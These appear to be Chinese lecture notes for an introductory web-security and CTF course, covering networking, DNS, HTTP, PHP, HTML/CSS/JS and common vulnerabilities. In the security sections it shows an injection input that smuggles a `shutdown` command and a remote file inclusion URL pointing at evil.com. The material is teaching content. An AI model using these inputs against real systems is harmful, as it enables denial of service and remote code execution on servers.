


## 7-3 lec2-Web
> 授课：叶耀阳

### 前置
下载 
- PHPstudy
- Node.js

### Web 应用架构：客户端+服务端

桌面应用和Web应用在架构上有显著的区别。桌面应用通常是在本地运行的独立程序，而Web应用则需要依赖客户端和服务端的协作。

- 客户端：你的浏览器
    - 可视化：图形、图片、布局…… HTML + CSS
    - 人机交互逻辑：按钮点击，登录，发送请求……JS
    - 缓存、Cookie
    - 安全：不能将私密的、不该获取的信息传出去（比如 Cookie），不能为所欲为（比如注销其他网站的账号）
- 服务端：某台或很多台服务器
    - 认证与鉴权：如何证明你是你
        - Authentication(认证)
        - Authorization(鉴权)
    - 处理请求：用户需要做什么？将结果返回客户端
    - 服务器也可以有不同分工：前端后端、数据库……
    - 安全：用户不能获得不该获取的信息（比如 flag），不能为所欲为（比如任意代码执行）

### 网络：数据交换

- 数据包的传输与路由
想象一下，数据包就像是一封封信件，而网络则是遍布全球的邮政系统。当我们在电脑上点击发送邮件时，数据被切割成一个个小包裹，即数据包。这些数据包随后被送往最近的邮局，也就是路由器。路由器就像邮局的分拣员，根据包裹上的地址（即IP地址），决定将它们送往下一个邮局，直至最终到达目的地。这个过程中，每个路由器都会查看数据包的目的地，并选择最佳路径，确保数据包能够快速、准确地到达。
- 域名与DNS系统
在网络的世界里，IP地址就像是门牌号码，虽然精确，但记忆起来却颇为困难。这时，域名系统（DNS）就如同一个智能的电话簿，将复杂的IP地址转化为易于记忆的域名，比如`www.example.com`。当你在浏览器中输入一个域名时，DNS服务器会像查电话簿一样，找到对应的IP地址，并指引你的请求到达正确的服务器。
- OSI模型和TCP/IP模型
正如我们写代码层层封装，计算机网络的总体架构也是分层的。这样每个层各司其职，下层上上层的基础设施，逐渐构建复杂的功能。


- OSI 七层模型
    
    
    
- TCP/IP 四层模型：广泛使用

    

- TCP/IP 协议详解
    - IP: 网络层=主机到主机，数据包寻址（快递公司）
    - TCP: 传输层=应用到应用，或者说端到端（菜鸟驿站）
    无边界的字节流，类比电报报文，电报的格式是应用层协议该做的，电报本身只发字母数字
- HTTP 协议详解
    - Hyper Text Transfer Protocol
    - 超文本传输协议
    - 应用层
    - 特点：无状态，纯文本
        - 需要维持状态（比如：用户已登录）怎么办？Cookie
    - 格式


- DNS记录：
   - A记录：指向IPV4地址
   - AAAA记录：指向IPV6地址
   - CNAME： 别名，指向另外一个域名
   - TXT纯文本 
   - NS(Name server) 
      
      非权威，可能会缓存，不一定实时更新
   - MX SOA
   - 命令`tracert`可以查看网站如何跳转
   - TTL time to live 防止它一直在跳，TTL用完了就死了
  

- 代理PROXY
   - 正向代理：VPN：Virtual Private Network，看起来像在内网
   - 反向代理：隐藏真实IP，部署CDN，部署防火墙，内网穿透 **内网穿到外面来** 
  

  
### 后端：业务逻辑

后端是Web应用的核心，它负责处理业务逻辑、数据存储和安全。在这一部分，我们会介绍常见的后端技术栈，并重点讨论后端安全，尤其是如何防范和应对CTF（Capture the Flag）中常见的逻辑漏洞攻击。

- 常见后端技术栈（如Node.js、PHP、Python、Ruby、Go、Rust 等）
- 后端安全：永远不要相信用户的数据，一切前端的过滤都等于没有过滤！
- CTF: 通过逻辑漏洞等欺骗后端
逻辑漏洞：`if money!=0 then money-=price.` What if `money=-1` ?
    
    没接触安全领域前关于安全的错觉：
    
    - 这么蠢的洞也有人写？
    - 这么写怎么可能有洞？
    - 这么多人用怎么可能有洞？
    
    事实：连SSH今年都还能有高危漏洞 CVE-2024-6387
    
    真实例子（出自隔壁EE学院同学的手笔，科班-半路出家=安全+质量）：
    
    注入：混淆了数据和代码。
    
    例如`printf("%d", _____)`
    
    正常输入：`1` `2` `3` 
    
    恶意输入：`1); system("shutdown -s -t 0"); //`
    
    就变成了`printf("%d", 1); system("shutdown -s -t 0"); //)`
    
    爆了  


### PHP 简单入门

PHP是最早的Web开发语言之一，它在Web开发历史上占有重要地位。

但它快死了。

早年只有静态网页，而后来有了jsp和php

- 环境配置：PHP Study
- 变量定义
    
    ```php
    $name = "John"; // 字符串变量
    $age = 25;      // 整数变量
    $height = 1.75; // 浮点数变量
    $isStudent = true; // 布尔变量
    ```
    
- 短标签 `<?=$a?>`
- 例子：
  
???note
    ```PHP
    <!DOCTYPE html>
    <html>
    <head>
        <title>PHP 示例</title>
    </head>
    <body>
        <h1>欢迎使用 PHP</h1>
        <?php
        // 定义变量
        $name = "John";
        $age = 25;

        // 输出变量
        echo "<p>你好，我的名字是 $name，我今年 $age 岁。</p>";

        // 条件语句
        if ($age >= 18) {
            echo "<p>我已成年。</p>";
        } else {
            echo "<p>我未成年。</p>";
        }

        // 数组
        $fruits = array("apple", "banana", "cherry");
        echo "<p>我喜欢的水果有：</p>";
        echo "<ul>";
        foreach ($fruits as $fruit) {
            echo "<li>$fruit</li>";
        }
        echo "</ul>";

        // HTML 短标签
        ?>
        <p>这是使用 HTML 短标签的示例：</p>
        <?= "当前时间是：" . date("Y-m-d H:i:s") ?>
        
        <?php
        $fr = "pear";
        $pear = 114;
        $lingo = 514;
        echo $$fr;
        ?>
    </body>
    </html>
    ```  

获取 GET 参数与 Cookie 并查询数据库对应的用户：
???note
    ```PHP
       <?php
    // 数据库连接信息
    $servername = "localhost";
    $username = "root";
    $password = "";
    $dbname = "test_db";

    // 创建数据库连接
    $conn = new mysqli($servername, $username, $password, $dbname);

    // 检查连接是否成功
    if ($conn->connect_error) {
        die("连接失败: " . $conn->connect_error);
    }

    // 获取GET参数
    $userId = isset($_GET['user_id']) ? intval($_GET['user_id']) : 0;

    // 获取Cookie
    $sessionId = isset($_COOKIE['session_id']) ? $_COOKIE['session_id'] : '';

    // 查询数据库
    if ($userId > 0) {
        $sql = "SELECT * FROM users WHERE id = $userId";
        $result = $conn->query($sql);

        if ($result->num_rows > 0) {
            $user = $result->fetch_assoc();
            echo "<p>用户信息: </p>";
            echo "<p>ID: " . $user['id'] . "</p>";
            echo "<p>姓名: " . $user['name'] . "</p>";
            echo "<p>邮箱: " . $user['email'] . "</p>";
        } else {
            echo "<p>没有找到对应的用户。</p>";
        }
    } else {
        echo "<p>无效的用户ID。</p>";
    }

    // 关闭数据库连接
    $conn->close();
    ?>
    ```

### SQL 简单入门

入门可以从 MySQL 开始。

### 相关安全话题

- Cookie 与 Session
    - **Cookie**：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
        - **示例**：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
        - **Cookie劫持**：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
    - **Session**：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
        - **示例**：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
        - 如果服务器被攻破，Session中就可能有一些敏感信息。
- 逻辑漏洞：验证不充分、想当然的写法、条件竞争、未发现的旁门左道……
    - 程序员的傲慢可能会让他认为`a==1&&a==2` 一定是 false 但……


- 任意文件读与任意代码执行
    - 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
    - CTF竞赛中，能读服务器上 `/flag` 则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
- 文件包含：例如一个Web应用允许用户通过URL参数指定要包含的文件，如`index.php?page=about`。攻击者可以通过构造恶意URL，如`index.php?page=http://evil.com/malicious.php`，包含远程恶意文件，从而执行恶意代码。
- 越权：例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如`order.php?id=123`，查看其他用户的订单信息。
    - 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会


### 前端：可视化与操作逻辑

前端开发主要关注用户界面的设计和用户交互。在这一部分，我们将学习HTML、CSS和JavaScript的基础知识，以及前端安全的重要性和常见的防护措施。同时，我们会通过经典案例分析前端漏洞的利用方法和防护策略。

- HTML / CSS / JS基础
    - HTML 简单介绍
        - 格式：各个标签嵌套的层级结构，每个标签基本上就对应页面上的一个元素


???note 
    ```html
    <!DOCTYPE html>
    <html lang="zh-CN">
    <head>
        <meta charset="UTF-8">
        <title>HTML 和 CSS 示例</title>
        <link rel="stylesheet" href="styles.css">
    </head>
    <body>
        <header>
            <h1>欢迎来到我的网站</h1>
            <nav>
                <ul>
                    <li><a href="#home">首页</a></li>
                    <li><a href="#about">关于我们</a></li>
                    <li><a href="#contact">联系我们</a></li>
                </ul>
            </nav>
        </header>
        <main>
            <section id="home">
                <h2>首页</h2>
                <p class="intro">这是我们的首页，欢迎您的到来！</p>
            </section>
            <section id="about">
                <h2>关于我们</h2>
                <p class="intro">我们是一家专业的Web开发公司。</p>
            </section>
            <section id="contact">
                <h2>联系我们</h2>
                <p class="intro">如果您有任何问题，请随时联系我们。</p>
                <form>
                    <label for="name">姓名:</label>
                    <input type="text" id="name" name="name"><br>
                    <label for="email">邮箱:</label>
                    <input type="email" id="email" name="email"><br>
                    <input type="submit" value="提交">
                </form>
            </section>
        </main>
        <footer>
            <p>&copy; 2023 我的网站</p>
        </footer>
    </body>
    </html> 
    ``` 
    
- CSS 简单介绍
    - 用途：元素宽度、外部间隔、内部边距、字体颜色……
    - 选择器语法：选择你要把这些属性应用给哪些元素
        - 元素选择器`body`
        - 类选择器`.my-class`
        - ID选择器`#myid`

???note    
    ```css
    /* 基本样式 */
    body {
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
        background-color: #f4f4f4;
    }
    
    header {
        background-color: #333;
        color: #fff;
        padding: 10px 0;
        text-align: center;
    }
    
    nav ul {
        list-style: none;
        padding: 0;
    }
    
    nav ul li {
        display: inline;
        margin: 0 10px;
    }
    
    nav ul li a {
        color: #fff;
        text-decoration: none;
    }
    
    main {
        padding: 20px;
    }
    
    section {
        margin-bottom: 20px;
    }
    
    .intro {
        font-style: italic;
        color: #555;
    }
    
    footer {
        background-color: #333;
        color: #fff;
        text-align: center;
        padding: 10px 0;
        position: fixed;
        width: 100%;
        bottom: 0;
    }
    
    /* 表单样式 */
    form {
        margin-top: 20px;
    }
    
    form label {
        display: block;
        margin-bottom: 5px;
    }
    
    form input[type="text"],
    form input[type="email"] {
        width: 100%;
        padding: 8px;
        margin-bottom: 10px;
        border: 1px solid #ccc;
        border-radius: 4px;
    }
    
    form input[type="submit"] {
        background-color: #333;
        color: #fff;
        padding: 10px 20px;
        border: none;
        border-radius: 4px;
        cursor: pointer;
    }
    
    form input[type="submit"]:hover {
        background-color: #555;
    }
    ```
- JS
    - 包裹在`<script>`中
    - 可以做什么：嵌入网页中，让网页具备高级的交互逻辑
???note    
    ```html
    <!DOCTYPE html>
    <html lang="zh-CN">
    <head>
        <meta charset="UTF-8">
        <title>现代Web开发示例</title>
        <style>
            /* CSS 样式 */
            body {
                font-family: Arial, sans-serif;
                margin: 0;
                padding: 0;
                background-color: #f4f4f4;
            }

            header {
                background-color: #333;
                color: #fff;
                padding: 10px 0;
                text-align: center;
            }

            nav ul {
                list-style: none;
                padding: 0;
            }

            nav ul li {
                display: inline;
                margin: 0 10px;
            }

            nav ul li a {
                color: #fff;
                text-decoration: none;
            }

            main {
                padding: 20px;
            }

            section {
                margin-bottom: 20px;
            }

            .intro {
                font-style: italic;
                color: #555;
            }

            footer {
                background-color: #333;
                color: #fff;
                text-align: center;
                padding: 10px 0;
                position: fixed;
                width: 100%;
                bottom: 0;
            }

            form {
                margin-top: 20px;
            }

            form label {
                display: block;
                margin-bottom: 5px;
            }

            form input[type="text"],
            form input[type="email"] {
                width: 100%;
                padding: 8px;
                margin-bottom: 10px;
                border: 1px solid #ccc;
                border-radius: 4px;
            }

            form input[type="submit"] {
                background-color: #333;
                color: #fff;
                padding: 10px 20px;
                border: none;
                border-radius: 4px;
                cursor: pointer;
            }

            form input[type="submit"]:hover {
                background-color: #555;
            }
        </style>
        <script>
            // JavaScript 代码
            function greetUser() {
                var name = prompt("请输入您的名字:");
                if (name) {
                    alert("你好, " + name + "!");
                } else {
                    alert("你好, 访客!");
                }
            }

            function validateForm() {
                var name = document.getElementById("name").value;
                var email = document.getElementById("email").value;
                if (name === "" || email === "") {
                    alert("请填写所有字段！");
                    return false;
                }
                return true;
            }
        </script>
    </head>
    <body>
        <header>
            <h1>欢迎来到我的网站</h1>
            <nav>
                <ul>
                    <li><a href="#home">首页</a></li>
                    <li><a href="#about">关于我们</a></li>
                    <li><a href="#contact">联系我们</a></li>
                </ul>
            </nav>
        </header>
        <main>
            <section id="home">
                <h2>首页</h2>
                <p class="intro">这是我们的首页，欢迎您的到来！</p>
                <button onclick="greetUser()">打招呼</button>
            </section>
            <section id="about">
                <h2>关于我们</h2>
                <p class="intro">我们是一家专业的Web开发公司。</p>
            </section>
            <section id="contact">
                <h2>联系我们</h2>
                <p class="intro">如果您有任何问题，请随时联系我们。</p>
                <form onsubmit="return validateForm()">
                    <label for="name">姓名:</label>
                    <input type="text" id="name" name="name"><br>
                    <label for="email">邮箱:</label>
                    <input type="email" id="email" name="email"><br>
                    <input type="submit" value="提交">
                </form>
            </section>
        </main>
        <footer>
            <p>&copy; 2023 我的网站</p>
        </footer>
    </body>
    </html>
    ``` 
  -  现代的解决方式：使用前端框架
    -  React.js Vue.js … 但本质上还是原生js
  
### 编码基础：JavaScript 与 TypeScript


#### JavaScript

**JavaScript 简介与历史**

JavaScript（简称JS）是由Netscape公司的Brendan Eich在1995年十天内开发出来的一种脚本语言。最初设计用于浏览器端的动态网页内容生成，JavaScript迅速成为Web开发的核心技术之一，与HTML和CSS并列为前端开发的三大支柱。

- **诞生背景**：JavaScript诞生于Web 1.0时代，最初被称为Mocha，后改名为LiveScript，最后才成为JavaScript。
- **发展历程**：从最初的客户端脚本语言，JavaScript逐步演变成一门强大的编程语言，现今不仅用于浏览器端，还在服务器端广泛应用。

**JavaScript的基本语法和特点**

JavaScript语法灵活，具有动态类型、函数式编程和原型继承等特点。

- **变量声明**：使用`var`、`let`和`const`声明变量。
    
    ```jsx
    var x = 5;
    let y = 10;
    const z = 15;
    
    ```
    
- **函数定义**：
    
    ```jsx
    function add(a, b) {
      return a + b;
    }
    
    ```
    
- **条件判断**：
    ```jsx
    if (x > y) {
      console.log("x is greater than y");
    } else {
      console.log("x is less than or equal to y");
    }
    ```
​
- **循环**：
   ```jsx
      for (let i = 0; i < 5; i++) {
        console.log(i);
      }
   ```

​
  - **事件处理**：
    ```jsx  
      document.getElementById("myButton").addEventListener("click", function() {
        alert("Button clicked!");
      });
    ```
JavaScript灵活性很强，但这也带来了某些潜在问题，比如类型不安全、代码维护性差等

#### TypeScript

**TypeScript的特点和优点**

TypeScript（简称TS）是由微软开发的一种开源编程语言，是JavaScript的超集，增加了静态类型和类等特性。

- **静态类型**：通过类型检查减少运行时错误，提高代码的可维护性。
- **类和接口**：支持面向对象编程，增强代码结构性
- **模块化**：支持模块化编程，提高代码复用性和组织性


### Node.js简介

**Node.js的起源和发展**

Node.js是由Ryan Dahl在2009年开发的一个开源、跨平台的JavaScript运行时环境，基于Chrome的V8引擎构建。Node.js的出现使得JavaScript可以用于服务器端开发。

- **起源**：Node.js诞生于对高性能、非阻塞I/O模型的需求。
- **发展**：Node.js迅速发展，成为构建高性能、可扩展网络应用的首选平台。

**Node.js的基本使用方法与应用场景**

Node.js通过事件驱动、非阻塞I/O模型，使其在处理大量并发请求时具有显著优势。

### 前端相关安全领域
  - XSS（跨站脚本攻击）
  - CSRF（跨站请求伪造）与 SSRF（服务器端请求伪造）
  - 跨域 

### 尾声

经典老番：地址栏输入网址并访问后发生了什么

1. **DNS解析（域名解析）**：
    - 浏览器会首先检查本地缓存中是否有该网址对应的IP地址。
    - 如果没有，它会向DNS服务器发送请求，查询该网址的IP地址。
    - DNS服务器返回该网址对应的IP地址给浏览器。
2. **建立TCP连接**：
    - 浏览器使用前面得到的IP地址，通过TCP/IP协议与目标服务器建立连接。
    - 这包括[三次握手](https://blog.csdn.net/m0_56649557/article/details/119492899)过程：客户端发送SYN包，服务器返回SYN-ACK包，客户端再发送ACK包确认连接。
3. **发送HTTP请求**：
    - 建立连接后，浏览器会发送一个HTTP请求到服务器。这个请求包含了请求方法（如GET或POST）、请求的资源路径以及一些头信息（如浏览器类型、可接受的文件类型等）。
4. **服务器处理请求并返回响应**：
    - 服务器接收到请求后，会处理该请求，查找请求的资源（如HTML文件、图片、视频等）。
    - 服务器会将找到的资源以及一些头信息（如内容类型、内容长度等）打包成HTTP响应，返回给浏览器。
5. **浏览器接收响应并渲染页面**：
    - 浏览器接收到服务器返回的HTTP响应后，会解析响应的头信息和内容。
    - 如果内容是HTML文件，浏览器会解析HTML并根据其中的指令（如加载CSS文件、执行JavaScript脚本等）进行渲染。
    - 浏览器会逐步构建DOM树和CSSOM树，并根据它们生成渲染树，最后将内容绘制到屏幕上。
6. **加载资源**：
    - 如果HTML文件中包含了其他资源（如图片、CSS、JavaScript等），浏览器会根据需要发送额外的HTTP请求来加载这些资源。
    - 这些资源加载完成后，浏览器会继续渲染页面，更新显示内容。
整个过程通常在短时间内完成，以确保用户能够快速看到网页内容。
